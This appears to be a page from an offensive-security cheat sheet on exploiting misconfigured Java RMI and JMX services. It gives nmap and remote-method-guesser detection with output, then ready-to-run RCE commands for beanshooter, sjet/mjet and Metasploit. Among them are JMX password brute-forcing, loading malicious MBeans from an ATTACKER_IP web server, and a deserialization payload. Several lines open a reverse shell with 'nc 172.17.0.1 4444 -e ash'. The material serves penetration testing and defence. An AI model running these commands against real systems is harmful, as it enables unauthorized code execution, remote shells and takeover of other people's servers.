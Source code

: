 # Java RMI

> Java RMI (Remote Method Invocation) is a Java API that allows an object running in one JVM (Java Virtual Machine) to invoke methods on an object running in another JVM, even if they're on different physical machines. RMI provides a mechanism for Java-based distributed computing.


## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Methodology](#methodology)
    * [RCE using beanshooter](#rce-using-beanshooter)
    * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
    * [RCE using Metasploit](#rce-using-metasploit)
* [References](#references)


## Tools

- [siberas/sjet](https://github.com/siberas/sjet) - siberas JMX exploitation toolkit
- [mogwailabs/mjet](https://github.com/mogwailabs/mjet) - MOGWAI LABS JMX exploitation toolkit
- [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) - Java RMI Vulnerability Scanner
- [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX enumeration and attacking tool.


## Detection

* Using [nmap](https://nmap.org/):
  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   VULNERABLE:
  |   RMI registry default configuration remote code execution vulnerability
  |     State: VULNERABLE
  |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* Using [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
  [+] 	[6234 / 6234] [#############################] 100%
  [+] Portscan finished.

  $ rmg enum 172.17.0.2 9010
  [+] RMI registry bound names:
  [+]
  [+] 	- plain-server2
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+] 	- legacy-service
  [+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+] 	- plain-server
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* Using [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## Methodology

If a Java Remote Method Invocation (RMI) service is poorly configured, it becomes vulnerable to various Remote Code Execution (RCE) methods. One method involves hosting an MLet file and directing the JMX service to load MBeans from a distant server, achievable using tools like mjet or sjet. The remote-method-guesser tool is newer and combines RMI service enumeration with an overview of recognized attack strategies.


### RCE using beanshooter

* List available attributes: `beanshooter info 172.17.0.2 9010`
* Display value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* Set the value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* Bruteforce a password protected JMX service: `beanshooter brute 172.17.0.2 1090`
* List registered MBeans: `beanshooter list 172.17.0.2 9010`
* Deploy an MBean: `beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* Enumerate JMX endpoint: `beanshooter enum 172.17.0.2 1090`
* Invoke method on a JMX endpoint: `beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* Invoke arbitrary public and static Java methods: 

    ```ps1
    beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
    beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
    ```
    
* Standard MBean execution: `beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* Deserialization attacks on a JMX endpoint: `beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`


### RCE using sjet or mjet

#### Requirements

- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean `javax.management.loading.MLet` on the target server, using JMX
* Invoking the `getMBeansFromURL` method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [siberas/sjet](https://github.com/siberas/sjet) or [mogwailabs/mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```


## References

- [Attacking RMI based JMX services - Hans-Martin Münch - April 28, 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
- [JMX RMI - MULTIPLE APPLICATIONS RCE - Red Timmy Security - March 26, 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
- [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel - August 15, 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)